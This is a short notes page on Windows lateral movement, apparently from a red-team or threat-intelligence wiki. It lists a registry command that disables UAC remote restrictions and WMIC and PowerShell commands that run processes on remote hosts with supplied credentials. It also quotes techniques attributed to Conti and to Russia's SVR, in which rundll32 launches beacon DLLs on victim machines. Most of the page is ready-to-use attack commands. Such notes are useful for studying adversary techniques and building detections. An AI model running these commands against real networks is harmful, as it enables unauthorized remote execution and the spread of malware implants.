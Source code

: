 # Lateral Movement



### Disable UAC Remote Restrictions

{% code overflow="wrap" %}
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
{% endcode %}



\----

## WMIC

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

WMI allows users with the required privileges to execute commands in remote hosts without additional tools. Adversaries abuse this feature to move laterally in a compromised network.&#x20;

Adversaries used the following commands to execute commands in a remote host:

{% code overflow="wrap" %}
```powershell
wmic /node:<remote_ip> /user:<username> /password:<password> process call create cmd.exe /c "<command>"
```
{% endcode %}

Or, you can do it with PowerShell:

{% code overflow="wrap" %}
```powershell
Invoke-WMIMethod -class Win32_Process -Name Create -ArgumentList "cmd /c <command>" -ComputerName <remote_hostname>
```
{% endcode %}

Specific TTP for Conti:

{% code overflow="wrap" %}
```
wmic /node:victim_ip process call create "rundll32.exe C:/ProgramData/beacon_dll DllRegisterServer"
```
{% endcode %}

Specific TTP for Russian Foreign Intelligence Service (SVR):

```
wmic /node:<remote_host's_IP> /user:<username> /password:<password> process call create "rundll32 C:\Windows\system32\AclNumsInvertHost.dll AclNumsInvertHost"
```

##

